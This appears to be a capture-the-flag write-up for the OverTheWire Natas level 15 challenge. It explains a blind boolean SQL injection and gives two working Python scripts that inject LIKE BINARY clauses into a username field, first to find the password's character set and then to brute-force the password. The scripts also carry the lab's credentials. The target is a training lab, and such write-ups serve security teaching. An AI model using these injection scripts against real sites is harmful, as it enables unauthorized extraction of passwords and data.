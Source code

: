 # Level 15 -> 16  

Blind SQLI  

we use the boolean response of whether the user exists or not to figure out the password for level 16  

use this script to find charset of the password (i.e. set of characters which make up the password)  

```python
import requests

target = "http://natas15.natas.labs.overthewire.org"
charset_0 = "0123456789" + "abcdefghijklmnopqrstuvwxyz" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
charset_1 = ""

for c in charset_0:
        username = ('natas16" AND password LIKE BINARY "%' + c + '%" "')
        r = requests.get(target,
                        auth= ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"),
                        params={"username": username}
        )
        if "This user exists" in r.text:
                charset_1 += c
                print("CSET: " + charset_1.ljust(len(charset_0), "*"))
```

this works because of this query  

```
natas16" AND password LIKE BINARY "%c%" "
```

Here %c% indicates anything before or after **c**, whether **c** exists in string  
Here **BINARY** ensures case sensitive comparison  

Find password using bruteforce of charset characters using the script below  

```python
import requests

target = "http://natas15.natas.labs.overthewire.org"
charset = "346cefhijkmostuvDEGKLMPQVWXY"
password = ""

for i in range(0, 32):
        for c in charset:
                t = password + c
                username = ('natas16" AND password LIKE BINARY "' + t + '%" "')
                r = requests.get(target,
                                auth= ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"),
                                params={"username": username}
                )
                if "This user exists" in r.text:
                        password = t
                        print("Password: " + password.ljust(32, "*"))
                        break
```


